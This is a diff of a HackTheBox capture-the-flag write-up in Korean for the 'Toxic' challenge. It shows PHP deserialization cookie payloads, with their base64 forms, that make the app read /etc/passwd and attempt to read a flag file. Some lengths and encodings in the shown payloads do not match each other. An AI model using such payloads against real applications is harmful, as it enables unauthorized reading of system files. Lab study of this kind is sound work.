

Before and after one commit to JaedongSeo/HackTheBox, a Markdown page: Toxic/README.md, the part around one of its changes. Shown at 96% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Toxic/README.md
+++ b/Toxic/README.md
@@ -41,20 +45,20 @@ O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
 ### ✅ 정상 출력 (기존 쿠키):
 
 ```php
-O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
+O:9:"PageModel":1:{s:4:"file";s:15:"/etc/passwd";}
 ```
+![passwd](img/passwd.png)
 
-→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9`
+→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=`
 
 ### ❌ 실패한 flag 시도:
 
 ```php
 O:9:"PageModel":1:{s:4:"file";s:9:"/var/flag";}
 ```
+![burp2](img/burp2.png)
 
-→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo5OiIvdmFyL2ZsYWciO30=`
-
-요청 후 500 Internal Error 발생 → 접근 권한 문제 혹은 파일 없음
+→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo0OiJmbGFnIjt9`
 
 ---
 
````
Also changed, not shown: other parts of Toxic/README.md (+8 -3 lines).
